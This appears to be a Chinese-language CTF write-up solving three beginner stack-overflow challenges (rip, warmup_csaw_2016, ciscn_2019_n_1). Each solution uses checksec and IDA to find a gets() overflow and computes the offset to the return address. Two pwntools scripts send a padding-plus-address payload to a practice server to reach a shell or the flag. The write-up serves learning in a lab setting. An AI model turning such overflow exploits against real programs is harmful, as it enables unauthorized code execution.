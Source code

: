 # rip
先查看一下开了哪些保护\
![image](https://user-images.githubusercontent.com/98165037/188303228-82ab9753-9b76-4bd4-85d5-21e54f7f9e3c.png)\
几乎没开什么保护\
放进ida看看\
![image](https://user-images.githubusercontent.com/98165037/188303300-b7aac343-6559-44c2-a808-26ac8cb60769.png)\
看到gets函数，一个明显的溢出点\
然后又发现了一个fun函数（后门函数？）可以直接get shell\
![image](https://user-images.githubusercontent.com/98165037/188303382-39a84a3f-4873-4b52-b3a2-683fe27772f3.png)\
所以就是通过gets函数溢出覆盖到rbp然后ret到fun函数地址去执行\
这里看到fun函数地址是0x401186\
![image](https://user-images.githubusercontent.com/98165037/188303687-0c2d3d55-c6ac-41c4-be4e-c723a63eb1b3.png)\
或者直接ret到0x40118A执行system("/bin/sh")\
双击s看到s距离rbp 15个字节，并且rbp有8字节，所以一共要覆盖（0xf+0x8）字节的长度\
![image](https://user-images.githubusercontent.com/98165037/188303576-db6e46ea-c60f-41cb-a0b9-ca36655ed1a8.png)\
所以exp如下\
![image](https://user-images.githubusercontent.com/98165037/188303611-7c8e565a-d00c-4aa7-83e9-8324a495c9d7.png)
# warmup_csaw_2016
checksec一下\
![image](https://user-images.githubusercontent.com/98165037/188305580-3b29e959-c502-4d52-b6f7-b4df1cd15c30.png)\
耶没什么保护\
ida打开\
![image](https://user-images.githubusercontent.com/98165037/188305649-aa309e65-45d4-4688-86bf-fa906758d633.png)\
显然又是gets\
又非常幸运地找到了一个nice的函数，能够让我们看到flag\
![image](https://user-images.githubusercontent.com/98165037/188305730-09de9ad7-fb23-4576-8b35-e2844efec57d.png)\
查看它的地址\
![image](https://user-images.githubusercontent.com/98165037/188305764-6ae6e05b-41e0-4a39-ac4a-334c5561314a.png)\
直接ret到0x400611好了\
再看看gets的参数v5的情况\
![image](https://user-images.githubusercontent.com/98165037/188305820-c42f260e-3197-4410-830b-b91fc3187cf0.png)\
到rbp的距离是0x40，rbp占8个字节，所以一个要覆盖（0x40+8）个字节\
exp如下
```
from pwn import *
io = remote('node4.buuoj.cn',29055)
payload = b'a'*(0x40+0x8)+p64(0x400611)
io.send(payload)
io.interactive()
```
但我需要手动ls才能看到\
![image](https://user-images.githubusercontent.com/98165037/188305948-9a73121c-3ee2-4d72-94de-5000837f2849.png)
# ciscn_2019_n_1
checksec一下\
![image](https://user-images.githubusercontent.com/98165037/188307032-fbd1e50f-e21c-4366-bab3-1aa9a5c6b4b8.png)\
开了NX保护
> NX即No-eXecute（不可执行）的意思，Windows平台上称为DEP，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
> 
ida里打开\
![image](https://user-images.githubusercontent.com/98165037/188307228-4a87c14e-672b-4856-807c-b299e07dd29c.png)\
gets函数get！又直接有system("cat /flag")，但是它的条件为假，可以利用gets函数溢出，跳过条件判断，直接跳到system的执行\
![image](https://user-images.githubusercontent.com/98165037/188307340-786b4ad7-a2a7-45eb-849d-d4ac3900b5f7.png)\
该语句地址为0x4006BE\
再看gets函数的参数v1，离rbp有0x30字节，并且rbp占8字节，一共（0x30+8）字节\
![image](https://user-images.githubusercontent.com/98165037/188307433-9e0d7c2d-336a-4ce9-9303-41ede84ec32c.png)\
exp如下
```
from pwn import *
io = remote('node4.buuoj.cn',27107)
payload = b'a'*(0x30+0x8)+p64(0x4006BE)
io.send(payload)
io.interactive()
```

